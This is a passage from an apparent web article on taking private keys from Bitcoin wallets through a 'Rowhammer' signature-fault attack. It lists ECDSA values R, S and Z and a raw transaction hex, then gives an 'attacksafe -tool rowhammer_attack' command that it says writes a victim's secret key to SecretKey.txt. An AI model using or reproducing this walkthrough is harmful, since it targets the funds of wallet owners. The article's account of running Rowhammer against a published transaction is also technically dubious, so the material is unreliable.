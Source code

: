 

<pre class="wp-block-code"><code>R = 0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
S = 0x282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad5
Z = 0x7270a25b48c53581f9babe8edcf27f9a038e7b57e817a8b242a49e2248bc71a7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool rowhammer_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-135-1024x351.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1225"></figure>



<p>We launched this attack from&nbsp;<code>-tool rowhammer_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>
